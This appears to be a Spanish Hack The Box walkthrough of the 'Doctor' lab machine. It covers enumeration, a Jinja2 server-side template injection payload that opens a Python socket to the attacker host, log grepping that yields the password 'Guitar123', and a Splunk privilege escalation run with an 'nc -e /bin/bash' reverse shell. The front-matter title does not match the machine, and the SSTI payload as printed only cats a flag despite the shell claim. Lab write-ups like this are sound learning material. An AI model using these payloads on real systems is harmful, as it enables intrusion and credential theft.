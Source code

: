 ```yaml
---
layout: post
title: HTB_Active
date: 2023/07/10
---
```


# Doctor {-}

## Introduccion {-}

La maquina del dia se llama Doctor.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/kaHpsn1HLp4/0.jpg)](https://www.youtube.com/watch?v=kaHpsn1HLp4)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.209
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.209
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80,8089 10.10.10.209 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 80     | http          | Web, Fuzzing       |                      |
| 8089   | https splunkd | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.209
```

Es un Apache 2.4.41 en un Ubuntu. Vemos un email `info@doctors.htb` Podria ser un usuario y un dominio. Añadimos el dominio al `/etc/hosts`

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.209`, vemos una pagina de un cabinete de doctor. Navigamos un poco en la web pero no hay nada interesante.
Si entramos en la web por el dominio `http://doctors.htb` vemos una nueva pagina. Se esta aplicando virtual hosting. Esta pagina es un login.
El wappalizer nos dice que es un Flask en python.

Aqui de seguida pensamos en un **Template Injection**.

De primeras creamos un nuevo usuario en el panel de registro. 
Vemos que nuestra cuenta a sido creada con un limite de tiempo de 20 minutos. Nos loggeamos y vemos un boton con un numero 1.
Si pinchamos, vemos en la url `http://doctors.htb/home?page=1`. Miramos si se puede aplicar un LFI

```bash
http://doctors.htb/home/page=/etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd%00
http://doctors.htb/home/page=../../../../../../../../etc/passwd?
```

Aqui no vemos nada.

Hay un link en la pagina para redactar un nuevo mensaje.

```bash
Title: EEEEEEEEE
Content: Hola
```

Aqui vemos que el mensaje esta visible en la pagina.

> [ ! ] NOTAS: Tito nos habla de probar un RFI (Remote File Inclusion) que seria algo que probar pero nos adelanta que no funcciona en este caso.

Aqui miramos de Injectar etiquetas HTML y XSS pero no funcciona.
## Vulnerability Assessment {-}

### Server Side Template Injection {-}


```bash
Title: {{9*9}}
Content: {{2*3}}
```

Vemos que en esta parte no nos lo interpreta. Si miramos el codigo fuente, vemos que hay un link que esta en la url `http://doctors.htb/archive` y que esta
en beta testing.

Si vamos a la url en question, hay una pagina blanca pero si otra vez, miramos el codigo fuente, en este caso de la pagina `/archive`, podemos ver que hay 
un numero **81**. Quiere decir que en el directorio **archive** esta interpretando el **SSTI** de los mensajes.

El caso del SSTI nos permite injectar comandos a nivel de systema usando el systema de templating. Si vamos a la carpeta **Server Side Template Injection** de
la pagina de [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) podemos copiar la Injeccion
de Jinja2 **Exploit the SSTI by calling Popen without guessing the offset**





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

1. Nos ponemos en escucha por el puerto 443
1. Creamos un nuevo mensaje con el payload

    ```bash
    Title: {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    Content: TEST
    ```

1. Recargamos la url `http://doctors.htb/archive`

Boom... estamos en la maquina victima.

```bash
whoami
#Output
web

hostname -I
```

Somos web y estamos en la maquina victima. Hacemos el tratamiento de la TTY.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Userpivoting {-}

```bash
cd /home
grep "$sh" /etc/passwd
cd /root
id
```

Aqui podemos ver que hay usuarios splunk y shaun y que estamos en el grupo `adm`. Podriamos visualisar los logs

```bash
cd /var/log
grep -r -i "pass"
grep -r -i "pass" 2>/dev/null
```

Vemos en el **apache2/backup** que hay una peticion POST para resetear una contraseña `Guitar123`

```bash
su shaun
Password: Guitar123

cat /home/shaun/user.txt
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
cd /
ls -l
cd /opt
```

Aqui vemos un directory splunkforward. Nos hace pensar que teniamos un puerto 8089 abierto con un splunkd.
Si vamos a esta url `https://10.10.10.209:8089` vemos un servicio splunkd.

Aqui podemos tirar de un exploit en el github de [cnotin](https://github.com/cnotin/SplunkWhisperer2) que permite hacer un
Local o un Remote privilege escalation. En este caso utilizaremos el Remoto.

```bash
git clone https://github.com/cnotin/SplunkWhisperer2
cd SplunkWhisperer2
ls
python3 PySplunkWhisperer2_remote.py
```

aqui vemos como se utiliza. Intentamos primeramente enviar una traza ICMP a nuestra maquina para ver si funcciona.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. lanzamos el exploit para enviar una traza ICMP

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.7"
    ```

Vemos que recibimos la traza. Ahora nos mandamos una reverse shell

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit para entablar una reverse shell

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash 10.10.14.7 443"
    ```

La conneccion esta entablada.

```bash
whoami
#Output
root
```
